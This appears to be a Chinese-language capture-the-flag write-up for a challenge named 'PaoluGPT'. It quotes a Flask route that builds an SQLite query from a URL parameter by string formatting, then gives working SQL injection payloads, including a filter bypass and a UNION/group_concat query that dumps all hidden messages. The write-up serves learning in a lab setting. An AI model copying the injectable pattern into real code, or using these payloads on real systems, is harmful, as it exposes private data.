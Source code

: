 # PaoluGPT

`/view` 里将 GET 参数 `conversation_id` 直接拼入 SQL 语句，造成 SQL 注入：

```python
@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(
        f"select title, contents from messages where id = '{conversation_id}'"
    )
    return render_template("view.html", message=Message(None, results[0], results[1]))
```

需要注意的是，`execute_query` 函数默认只获取一条记录：

```python
def execute_query(s: str, fetch_all: bool = False):
    conn = sqlite3.connect("file:/tmp/data.db?mode=ro", uri=True)
    cur = conn.cursor()
    res = cur.execute(s)
    if fetch_all:
        return res.fetchall()
    else:
        return res.fetchone()
```

题目作者希望先用爬虫脚本解决第一题「千里挑一」，然后使用 SQL 注入解决第二题「窥视未知」。但如果只用 SQL 注入，应该会更容易解决「窥视未知」，然后才是「千里挑一」。

这是我比赛时的做题顺序，接下来也按照这个顺序，只用 SQL 注入。

## 窥视未知

在 `/list` 中，SQL 查询限制了只显示 `shown = true` 的对话：

```python
results = execute_query(
    "select id, title from messages where shown = true", fetch_all=True
)
```

但在 `/view` 中存在 SQL 注入漏洞，我们可以构造 Payload 绕过这个限制：

```
' or shown = false --
```

这个 Payload 会使 SQL 语句变为：

```sql
select title, contents from messages where id = '' or shown = false --'
```

这样查询条件就从匹配特定 ID 变成了获取所有 `shown = false` 的对话。

由于 `execute_query()` 默认只返回一条记录，所以这个方法仅在隐藏对话只有一篇时有效。

经过测试，数据库中确实只有一篇隐藏对话，其内容底部包含 Flag。

如果数据库中有多篇隐藏对话，那么可以使用 `like` 语句匹配包含 `flag` 的结果：

```
' or shown = false and contents like '%flag%'' --
```

## 千里挑一

构造以下 Payload：

```
' union select 1, group_concat(title, contents) from messages --
```

这个 Payload 会使 SQL 语句变为：

```sql
select title, contents from messages where id = '' 
union
select 1, group_concat(title, contents) from messages --'
```

- 第一个 `select` 由于 id 为空字符串，不会返回任何结果
- `union` 连接了第二个 `select`，它会返回所有对话的内容
- 使用 `group_concat()` 将所有记录合并成一行，这样就能绕过 `execute_query()` 只返回一条记录的限制
- 添加了第一列 `1` 是为了满足 `union` 两边列数相同的要求

执行后会获得数据库中所有对话的标题和内容，在返回的页面中搜索 `flag` 就能同时找到两题的 Flag。
